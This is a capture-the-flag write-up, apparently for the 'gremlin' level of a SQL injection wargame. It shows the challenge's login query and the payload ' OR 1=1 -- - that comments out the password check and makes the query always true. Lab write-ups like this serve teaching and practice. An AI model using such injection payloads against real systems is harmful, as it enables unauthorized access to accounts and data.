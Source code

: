 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b61527a1-dd8e-479b-b0e7-5cb6d58a8823)

We are provided with the SQL query:

```
SELECT id FROM prob_gremlin WHERE id='' AND pw=''
```

In order to make the result of this query `True`, we can provide the following URI:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

## Queried part
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

## Commented part
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/5c172a9d-3333-45b6-bd48-edc0e2def822)
